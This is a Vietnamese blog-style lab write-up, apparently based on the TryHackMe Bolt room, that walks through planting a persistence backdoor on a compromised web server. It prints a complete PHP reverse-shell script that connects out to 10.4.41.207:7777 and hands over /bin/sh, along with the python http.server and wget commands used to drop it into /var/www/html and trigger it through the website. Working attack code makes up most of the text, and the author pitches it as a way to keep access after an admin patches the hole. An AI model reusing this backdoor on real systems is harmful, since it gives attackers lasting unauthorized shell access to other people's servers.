 # Basic reverse shell

Bài này sử dụng room Bolt-TryHackMe để thử reverse shell với mục đích là duy trì session sau khi đã hack được vào target machine.

Link Bolt:  https://tryhackme.com/room/bolt

> Vì để ngắn gọn nên mình không viết lại cách tấn công room Bolt mà sẽ để link ở đây cho các bạn tham khảo.

Link wu Bolt: https://github.com/daemon104/Writeups-TryHackMe/tree/main/Bolt

---
## Mục đích và Ý tưởng

Sau khi tấn công thành công 1 target, thường thì hacker sẽ tìm cách để duy trì kết nối đó phục vụ cho nhiều mục đích khác. Có nhiều tác vụ truy cập sâu cần tốn thời gian để chạy hay là phòng khi admin fix lỗ hổng đó rồi thì hacker không thể exploit lại được nữa. Do đó việc duy trì kết nối để sau khi hết phiên vẫn có thể truy cập lại được là rất quan trọng.

Có rất nhiều cách để duy trì kết nối, ở đây mình đề xuất ý tưởng cá nhân của mình, đó là upload file backdoor lên máy target sao cho có thể kích hoạt nó từ phía user (thông qua http website) và khi cần thì kích hoạt file backdoor tạo ra 1 reverse connection về máy mình và cấp 1 shell căn bản cho mình để tiếp tục khai thác mà không cần exploit lại.

---
## Backdoor.php

Sau khi tham khảo nguồn trên mạng, mình đã code lại được 1 file backdoor.php để tạo reverse shell căn bản. Shell này khá cùi vì code mình còn quá cùi nhưng vẫn xài được và có thể privilege escalation lên root để dùng (đỡ hơn không có).

Code mình như thế này:

```php=
<?php

//Required variables
$ip = '10.4.41.207';
$port = 7777;
$cmd = '/bin/sh -i';
$buffer = 2000;

//Change directory to safe directory and unset umask
chdir("/");
umask(0);

//Create reverse connection
$sock = fsockopen($ip, $port, $error_code, $error_message, 100);

//Set file description to STDIN, STDOUT and STDERR
$descriptor_spec = array(
    0 => array("pipe", "r"), 
    1 => array("pipe", "w"),  
    2 => array("pipe", "w")   
);

//Create process running in the target machine, 
//exchanging datas to our machine (input, output, error)
$process = proc_open($cmd, $descriptor_spec, $pipes);

//Set non-blocking for our sockets and pipes 
stream_set_blocking($sock, 0);
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);

//Start to transfer data
while (1) {
    $read_array = array($sock, $pipes[1], $pipes[2]);

    //Input: From our machine to target machine through pipes[0]
    if (in_array($sock, $read_array)) {
        $input = fread($sock, $buffer);
        fwrite($pipes[0], $input);
    }

    //Output: From target machine to our machine through socket
    if (in_array($pipes[1], $read_array)) {
        $output = fread($pipes[1], $buffer);
        fwrite($sock, $output);
    }

    //Error: From target machine to our machine through socket
    if (in_array($pipes[2], $read_array)) {
        $error = fread($pipes[2], $buffer);
        fwrite($sock, $error);
    }

    //Check for end of the connection
    if (feof($sock)){
        break;
    }

    if (feof($pipes[1])) {
        break;
    }
}

//Close connection and process
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

?>
```

Phần code trên có mục đích là mở 1 socket tạo kết nối ngược từ máy target về máy mình, sau đó tạo 1 process chạy trên máy target và gọi tới shell '/bin/sh -i', chuyển dữ liệu ouput, error qua máy mình thông qua pipes[1], pipes[2] và nhận input từ phía mình thông qua pipes[0]. Sau khi nhận input từ máy mình, máy target sẽ thực thi và truyền output hoặc error về cho mình xem.

## Tiến hành thử nghiệm

Đầu tiên, chúng ta tiến hành khai thác lỗi trên server Bolt như trong wu mình viết. Sau khi khai thác xong RCE, mình sẽ có được shell root như sau:

![](https://i.imgur.com/49JGH9T.png)

Mình sẽ cd tới /var/www/html , đây là đường dẫn chứa web service mặc định mà server đang chạy. Mình sử dụng python để dựng server tại port 8801 để host file backdoor.php:

```
python3 -m http.server --bind 0.0.0.0 8801
```

![](https://i.imgur.com/JU00HGW.png)

Tiến hành upload file backdoor.php lên bằng câu lênh:

```
wget 10.4.41.207:8801/backdoor.php
```

![](https://i.imgur.com/YqGOzWK.png)

Thực thi file từ phia user bằng cách vào trang main page host tại port 80 của server và đi tới đường dẫn file backdoor.php (đừng quên mở trước nc ở port bất kì chỉ định để chờ connection tới):

![](https://i.imgur.com/utBtQzo.png)

![](https://i.imgur.com/sA0AhtK.png)

## Kết quả

Thành công có được shell cơ bản, từ giờ ta có thể nâng cấp quyền lên root và tiến hành khai thác sâu hơn mà không cần tới session của metasploit nữa (trong trường hợp admin phát hiện lỗi và fix nó):

![](https://i.imgur.com/sElUI10.png)

![](https://i.imgur.com/c97EuJs.png)

Có rất nhiều cách để duy trì session và qua mặc các tool scan hay anti backdoor rất hay. Ở đây mình chỉ show ra cách cơ bản nhất để tạo reverse shell trong trường hợp server không chặn truy cập file php từ user hay cài anti reverse.

